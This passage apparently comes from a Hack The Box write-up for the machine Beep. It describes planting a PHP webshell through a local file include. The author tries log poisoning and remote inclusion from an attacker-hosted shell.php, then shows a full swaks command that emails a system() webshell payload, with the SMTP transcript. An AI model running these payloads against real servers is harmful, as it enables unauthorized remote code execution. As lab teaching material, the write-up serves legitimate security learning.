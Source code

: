 

## Webshell Upload \[Path #5\]

### Get WebShell on Beep

#### Failures

Because I have a local file include, if I can get a webshell onto the
host, then I can get execution that way. I tried a bunch of things:

-   Log Poisoning - I can put a PHP webshell into the User-Agent header
    and it'll be logged in the `access_log`. Unfortunately, I can't read
    that file via the LFI. I've shown this [several times
    before](/tags.md#log-poisoning).
-   When I try to log into the Elastix web interface, it assigns a
    cookie, `elastixSession` that looks like
    `ambb7h36cmt7cngc245ilj6hp4`. Data about this session is stored at
    `/tmp/sess_ambb7h36cmt7cngc245ilj6hp4`, and I can access this file.
    Unfortunately, the files remain empty, I'm guessing until I'm able
    to log in. This is an attack I showed in
    [Unattended](/htb-unattended.md#shell).
-   Instead of trying to access a file on the system, I tried to access
    `http://10.10.14.2/shell.php`, but this failed as well.

#### Email

One way to get a file on disk is email. I'll send an email to one of the
accounts on the box, and then find it in `/var/mail/[username]`. Why not
the askerisk account? `swaks` will send the email (or I could do it with
`telnet` similar to the enumeration above):



    root@kali$ swaks --to asterisk@localhost --from 0xdf@0xdf.htb --header "Subject: test shel
    l" --body 'check out this code: <?php system($_REQUEST["cmd"]); ?>' --server 10.10.10.7
    === Trying 10.10.10.7:25...                                  
    === Connected to 10.10.10.7.
    <-  220 beep.localdomain ESMTP Postfix
     -> EHLO parrot
    <-  250-beep.localdomain                                     
    <-  250-PIPELINING
    <-  250-SIZE 10240000
    <-  250-VRFY                                                 
    <-  250-ETRN                                                 
    <-  250-ENHANCEDSTATUSCODES
    <-  250-8BITMIME
    <-  250 DSN
     -> MAIL FROM:<0xdf@0xdf.htb>
    <-  250 2.1.0 Ok
     -> RCPT TO:<asterisk@localhost>
    <-  250 2.1.5 Ok
     -> DATA
    <-  354 End data with <CR><LF>.<CR><LF>
     -> Date: Thu, 18 Feb 2021 15:33:00 -0500
     -> To: asterisk@localhost
     -> From: 0xdf@0xdf.htb
     -> Subject: test shell
     -> Message-Id: <20210218153300.1486384@parrot>
     -> X-Mailer: swaks v20201014.0 jetmore.org/john/code/swaks/
     -> 
     -> check out this code: <?php system($_REQUEST["cmd"]); ?>
      ->                                                          
     ->                    
     -> .
    <-  250 2.0.0 Ok: queued as 5BB88D92FD                       